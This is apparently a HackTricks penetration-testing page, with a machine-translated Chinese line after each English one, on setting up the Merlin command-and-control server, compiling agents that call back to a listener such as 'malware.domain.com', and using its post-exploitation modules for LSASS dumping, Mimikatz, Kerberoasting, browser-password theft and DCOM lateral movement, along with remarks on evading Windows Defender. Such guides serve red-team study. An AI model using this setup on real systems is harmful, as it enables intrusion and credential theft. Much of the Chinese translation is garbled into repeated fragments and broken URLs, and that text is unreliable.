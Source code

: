 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

<summary> <strong>支持hacktricks并获得好处！</strong> </summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

 - 您在**网络安全公司**工作吗？ 您是否想看到您的**公司在hacktricks **中刊登广告？ 还是您想访问**最新版本的豌豆或在pdf **中下载hacktricks？ 检查[**订阅计划**]（https://github.com/sponsors/carlospolop）！

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

 - 发现[**豌豆家庭**]（https://opensea.io/collection/the-peass-family），我们的独家[** nfts **]（https://opensea.io/collection） /家庭家庭）

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

 - 获取[**官方豌豆和hacktricks赃物**]（https://peass.creator-spring.com）

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

 -  **加入** [**💬**]（https://emojipedia.org/speech-balloon/）[** discord group **]（https://discord.gg/hrep4ruj7f）或[ **电报组**]（https://t.me/peass）或**在** Twitter ** [**🐦**]（https://github.com/carloppolop/hacktrickss on ** twitter **） /ree/7af18b62b3bdc423e114444444677a6a73d4043511e9/ \ [https:/emojipedia.org/bird/bird/readme.md）eardme.md）eghterme.md）eghterme.md）eghterme.md）eghtemplopmbyth

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

 -  **通过将PRS提交给** [** hacktricks github repo **]（https://github.com/carloppolop/hacktricks）**。

</details>


# Installation

## Install GO

```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```

## Install Merlin

```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```

# Launch Merlin Server

```
go run cmd/merlinserver/main.go -i
```

# Merlin Agents

You can [download precompiled agents](https://github.com/Ne0nd0g/merlin/releases)

您可以[下载预编译代理]（https://github.com/ne0nd0g/merlin/releases）

## Compile Agents

Go to the main folder _$GOPATH/src/github.com/Ne0nd0g/merlin/_

转到主文件夹_ $ gopath/src/github.com/ne0nd0g/merlin/_

```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```

## **Manual compile agents**

```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```

# Modules

**The bad news is that every module used by Merlin is downloaded from the source (Github) and saved on disk before using it. Be careful about when using well-known modules because Windows Defender will catch you!**

**坏消息是，Merlin使用的每个模块都是从源（GitHub）下载并在使用磁盘上保存在磁盘上的。 使用众所周知的模块时要小心，因为Windows Defender会抓住您！**


**SafetyKatz** --> Modified Mimikatz. Dump LSASS to file and launch:sekurlsa::logonpasswords to that file\

** Safety Katz **  - >修改的Mimikatz。 dump lsass要文件和启动：sekurlsa :: logonpasswords to该文件\
**SharpDump** --> minidump for the process ID specified (LSASS by default) (Itsais that the extension of the final file is .gz but indeed it is.bin, but is agz file)\

** SharpDump **  - >指定的流程ID（默认情况下为LSASS）的Minidump（ITSAIS认为最终文件的扩展为.gz，但实际上是bin，但IS是AGZ文件）\
**SharpRoast** --> Kerberoast (doesn't work)\

** Sharproast **  - > kerberoast（不起作用）\
**SeatBelt** --> Local Security Tests in CS (does not work) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\

**安全带**  - > CS中的本地安全测试（不起作用）
**Compiler-CSharp** --> Compile using csc.exe /unsafe\

** compiler-csharp **  - >使用csc.exe /unsafe \编译**Sharp-Up** -->Allchecks in C# in powerup (works)\

**敏锐的**  - > c＃in PowerUp（Works）\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool (doesn't works, need to load: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\

** inveigh **  - > powerShelladidns/llmnr/mdns/nbns spoofer和man-in-the-middle工具（不起作用，需要加载：https：//raw.githubusercontent.com/kevin-robertson/kevin-robertson/kevin-robertson/inveigh /master/inveigh.ps1）\
**Invoke-InternalMonologue** --> Impersonates all available users and retrieves a challenge-response for each (NTLM hash for each user) (bad url)\

**调用内部原理**  - >模拟所有可用用户，并检索每个用户的挑战响应（每个用户的NTLM哈希）（不良URL）\
**Invoke-PowerThIEf** --> Steal forms from IExplorer or make it execute JS or inject a DLL in that process (doesnt work) (and the PS looks like doesnt work either) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\

** instoke-poperthief **  - >从iexplorer中窃取表单或使其在该过程中执行JS或注入DLL（不起作用）（PS看起来也不起作用） Indoke-PowerThief/blob/master/indoke-powerthief.ps1 \
**LaZagneForensic** --> Get browser passwords (works but dont prints the output directory)\

** Lazagne Forensic **  - >获取浏览器密码（工作但不打印输出目录）\
**dumpCredStore** --> Win32 Credential Manager API (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\

** dumpcredstore **  - > win32凭证经理API（https://github.com/zetlen/clortho/blob/blob/master/master/credman.ps1）https://wwwww.digitalcitizen.life/credential.life/credential-where-where-where-where-where-where-wind-windows  - 商店passwords-其他login-details \
**Get-InjectedThread** --> Detect classic injection in running processes (Classic Injection (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (doesnt works)\

** Get InjextedThread **  - >检测跑步过程中的经典注入（经典注入（OpenProcess，VirtualAlloCex，WriteProcessMemory，CreateMoteThread））（不起作用）\
**Get-OSTokenInformation** --> Get Token Info of the running processes and threads (User, groups, privileges, owner… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\

** Get-stokenInformation **  - >获取运行过程和线程的令牌信息（用户，组，特权，所有者… ne-winnt- \ _ token_information_class）\
**Invoke-DCOM** --> Execute a command (inother computer) via DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\

** Invoke-dcom **  - >通过DCOM（http://www.enigma0x3.net。）执行命令（inother Computer）（https：//enigma0x3.net/2017/09/11/lateralalalal-movement-movement-movement-movement-movement-movement-movement-movement-movement-movement-movement-movement-movement-movement-ect一下 使用 -  excel-application-and-dcom/）\
**Invoke-DCOMPowerPointPivot** --> Execute a command in othe PC abusing PowerPoint COM objects (ADDin)\

** Indoke-dcom PowerPoint Pivot **  - >在其他PC中执行命令，滥用PowerPoint com对象（addin）\
**Invoke-ExcelMacroPivot** --> Execute a command in othe PC abusing DCOM in Excel\

** Invoke-excelmacropivot **  - >在excel \ excel \中滥用dcom中执行命令
**Find-ComputersWithRemoteAccessPolicies** --> (not working) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\

** find-computerswithremoteaccesspolicies **  - >（不工作）（https://labs.mwrinfosecurity.com/blog/enumerating-remerating-remote-remote-access-access-policies-policies-through-gpo/）\）
**Grouper** --> It dumps all the most interesting parts of group policy and then roots around in them for exploitable stuff. (deprecated) Take a look at Grouper2, looks really nice\

** grouper **  - >它倾倒了小组策略的所有最有趣的部分，然后扎根于它们以获取可剥削的东西。 （弃用）看一下grouper2，看起来真的很好\
**Invoke-WMILM** --> WMI to move laterally\

** Indoke-wmilm **  - > WMI横向移动\
**Get-GPPPassword** --> Look for groups.xml, scheduledtasks.xml, services.xmland datasources.xml and returns plaintext passwords (insidedomain)\

** get-gpppassword **  - >寻找groups.xml，scheduledtasks.xml，services.xmland dataSources.xml和返回明文密码（insideedomain）\
**Invoke-Mimikatz** --> Use mimikatz (default dump creds)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Check the privileges of users in computers\

** find-badprivilege **  - >检查计算机中用户的特权
**Find-PotentiallyCrackableAccounts** --> Retrieve information about user accounts associated with SPN (Kerberoasting)\

** find-potentiallycrackableAccounts **  - >检索有关与SPN（kerberoasting）关联的用户帐户的信息
**psgetsystem** --> getsystem

**Didn't check persistence modules**

**没有检查持久模块**
# Resume

I really like the feeling and the potential of the tool.\

我真的很喜欢该工具的感觉和潜力。
I hope the tool will start downloading the modules from the server and integrates some kind of evasion when downloading scripts.

我希望该工具将开始从服务器下载模块，并在下载脚本时集成某种逃避。


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

<summary> <strong>支持hacktricks并获得好处！</strong> </summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

 - 您在**网络安全公司**工作吗？ 您是否想看到您的**公司在hacktricks **中刊登广告？ 还是您想访问**最新版本的豌豆或在pdf **中下载hacktricks？ 检查[**订阅计划**]（https://github.com/sponsors/carlospolop）！

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

 - 发现[**豌豆家庭**]（https://opensea.io/collection/the-peass-family），我们的独家[** nfts **]（https://opensea.io/collection） /家庭家庭）

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

 - 获取[**官方豌豆和hacktricks赃物**]（https://peass.creator-spring.com）

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

 -  **加入** [**💬**]（https://emojipedia.org/speech-balloon/）[** discord group **]（https://discord.gg/hrep4ruj7f）或[ **电报组**]（https://t.me/peass）或**在** Twitter ** [**🐦**]（https://github.com/carloppolop/hacktrickss on ** twitter **） /ree/7af18b62b3bdc423e114444444677a6a73d4043511e9/ \ [https:/emojipedia.org/bird/bird/readme.md）eardme.md）eghterme.md）eghterme.md）eghterme.md）eghtemplopmbyth

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

 -  **通过将PRS提交给** [** hacktricks github repo **]（https://github.com/carloppolop/hacktricks）**。

</details>


